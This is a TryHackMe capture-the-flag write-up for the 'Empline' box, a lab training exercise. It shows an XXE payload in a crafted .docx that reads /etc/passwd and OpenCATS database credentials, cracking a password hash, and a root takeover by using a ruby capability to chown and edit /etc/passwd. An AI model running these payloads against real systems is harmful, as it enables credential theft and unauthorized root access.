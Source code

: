# Empline TryHackMe Writeup
### Level: `Medium` | OS: `Linux`
![logo](1.png)

## Scanning
We run nmap on all ports with scripts and software versions.
![](2.png)

## Enumeration
We access website and review all zones of site.
![](3.png)

We list a subdomain that appears to lead to an employee area.
![](4.png)

We found deployed an Opencats with version 0.9.4.
![](5.png)

We launch "**dirsearch**", we list a directory where it shows us a panel that we can access without authentication.
![](26.png)

### Deficient control panel to authorization control
![](27.png)

## Exploitation
We search exploits and found this notice:
https://www.opencats.org/news/2019/july/

### Create with python docx_

```python
#!/usr/bin/env python
from docx import Document
document = Document()
paragraph = document.add_paragraph('m3n0sd0n4ld')
document.save('m3n0s.docx')
```
### Create m3n0s.docx
![](11.png)

Unzip the file and edit the "**document.xml**".
![](12.png)

```XML
<?xml version='1.0' encoding='UTF-8' standalone='yes'?>
<!DOCTYPE payload [<!ENTITY payload SYSTEM "/etc/passwd"> ]>
```

We insert the following line (in orange color) and modify the text to "**&payload**".
![](13.png)

We see that the proof of concept works: .
![](14.png)

So now we read the "config.php" file where the database credentials are stored (remember that we have access to the service on port 3306).

```XML
<?xml version='1.0' encoding='UTF-8' standalone='yes'?>
<!DOCTYPE payload [<!ENTITY payload SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&payload;</data>
```
We will get the content of the file in base64, so we decode and we will have the credentials in plain text.
![](17.png)

### Connect to the database
![](18.png)

We select the table "*users*" and we will obtain the encrypted password of the user "*george*" (this one has a system user ;))
![](19.png)

We use the "**hashes.com**" website to obtain the flat password through its hash.
![](25.png)

### Read user.txt flag
With the password in plain text, we connect through the **SSH** service and read the "*user.txt*" file.
![](20.png)

## Privilege Escalation
After an enumeration, "**linpeas.sh**" shows us that we have permissions with the "**ruby**" binary to modify the binary user due to a deficiency in capabilities.
![](21.png)

We create a ruby file that we will use to modify the user of the file so we can edit it with our user.
![](22.png)

```ruby
file = File.new("/etc/passwd", "r")
file.chown(1002, 1002)
```

Edit the file "*/etc/passwd*" and create the user "*m3n0sd0n4ld*", add the password hash and give it the root suid and save the file.
![](23.png)

We authenticate with the user "*m3n0sd0n4ld*", we see that we are root and we read the root.txt flag.

![](24.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)
